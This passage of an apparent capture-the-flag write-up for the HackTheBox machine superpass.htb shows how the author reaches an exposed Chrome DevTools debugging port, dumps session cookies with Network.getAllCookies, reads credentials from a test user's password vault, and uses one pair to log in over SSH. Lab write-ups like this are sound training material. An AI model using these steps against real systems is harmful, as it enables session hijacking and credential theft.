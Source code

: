 ```bash
$wsdump ws://127.0.0.1:4444/devtools/page/F5C885E8C47B8DABE5F40413343D1DA7
Press Ctrl+C to quit
> {"id": 1, "method": "Network.getAllCookies"}

< {"id":1,"result":{"cookies":[{"name":"remember_token","value":"1|7fdd6de822618430df3a639745265d1843029b204f9785856ac1b107d54cb0948f2d43b52093bdf700bf9e6932003f2a6603445fddd88a352824cc21c7b874d4","domain":"test.superpass.htb","path":"/","expires":1711140905.844064,"size":144,"httpOnly":true,"secure":false,"session":false,"priority":"Medium","sameParty":false,"sourceScheme":"NonSecure","sourcePort":80},{"name":"session","value":".eJwlzjkOwjAQAMC_uKbYy2snn0HeS9AmpEL8HSTmBfNu9zryfLT9dVx5a_dntL1x6FxEI2cX1lATrF6KSgYjJDcv24LSRQu2bqQwPXGymkPMEIMAjpDRO6DjcqqZqoOjWBxRQYEsmXHgxCUhsNzTRhh2kvaLXGce_w22zxef3y7n.ZBy8qQ.FDBjE0KMsHAElWcFQXZ_bku66-I","domain":"test.superpass.htb","path":"/","expires":-1,"size":215,"httpOnly":true,"secure":false,"session":true,"priority":"Medium","sameParty":false,"sourceScheme":"NonSecure","sourcePort":80}]}}
```

We can also just browse to the `devtoolsFrontendUrl` above, and we're effectively looking at the selenium test session, with access to the password vault for the test user:

![](assets/2023-03-24-08-14-21-image.png)

So, we have two sets of credentials - `edwards` / `d07867c6267dcb5df0af` and `dedwards__` / `7dbfe676b6b564ce5718`

Trying the first set of credentials grants us SSH access:

```bash
$sshpass -p 'd07867c6267dcb5df0af' ssh edwards@superpass.htb
Welcome to Ubuntu 22.04.2 LTS (GNU/Linux 5.15.0-60-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.
Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings


The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.

```